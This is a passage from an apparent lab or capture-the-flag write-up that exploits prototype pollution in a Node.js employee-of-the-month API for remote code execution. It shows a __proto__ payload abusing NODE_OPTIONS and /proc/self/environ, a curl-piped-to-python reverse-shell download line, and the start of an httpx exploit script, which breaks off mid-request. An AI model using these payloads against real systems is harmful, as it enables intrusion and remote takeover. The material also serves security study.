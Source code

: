 We have successfully executed prototype pollution.

## Weaponization

Moving forward, we'll continue with poisoning the prototype env, and requiring the `/proc/self/environ` file, executing the payload using argv0 = `/proc/self/exe` (node) the next time `execSync` executes. Our payload for now will be `touch /dev/shm/pollution`, creating a file in the device RAM. If the file exists after our exploitation, then we would have achieved Remote Code Execution.

```
  "__proto__": {
   "argv0": "/proc/self/exe",
   "shell": "/proc/self/exe",
   "env": { "get_rekt":f"console.log(require('child_process').execSync('touch /dev/shm/test').toString())//"},
   "NODE_OPTIONS" : "--require /proc/self/environ"
  }
```

Let's execute the exploit.

We can immediatelly see, that something has gone wrong with the execSync function.
```
Error: Cannot find module '/home/kali/pollution/api2/ffmpeg -i ./img/image.jpg -y -vf scale=300:300 -vf drawtext="fontsize=16:fontfile=FreeSerif.ttf:text='❤ Patrick Richardson ❤':x=12:y=200" -vcodec png -loglevel panic ./img/current-badge.jpg'
    at Module._resolveFilename (node:internal/modules/cjs/loader:1028:15)
    at node:internal/main/check_syntax:32:20 {
  code: 'MODULE_NOT_FOUND',
  requireStack: []
}
```

In fact, we have executed our arbitrary code using the crafted 0 day.
```
┌──(kali㉿kali)-[~/pollution/api2]
└─$ ls /dev/shm
test
```

Let's create a real payload now.
```
(curl http://localhost:8000/reverse_shell.py | python3) &
```
The above payload will download the reverse shell from our machine and pipe it into the python interpreter, executing the payload in memory.

## Exploitation

I've chosen to go with the python reverse shell from [github](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md "github").

This is our complete exploit:
```python
import httpx

def exploit():
  client = httpx.Client()
  payload = "(curl http://localhost:8000/reverse_shell.py | python3) &"
  base_url = "http://localhost:3000"
  res = client.put(
    base_url + "/employee-of-the-month",
    headers={"cache-control": "no-cache"},
    json={
      "firstname": "Patrick",
      "lastname": "Payloadson",	
      "description": "Hello, I am Patrick Richardson! I've set up this API to display employees of the month!",
```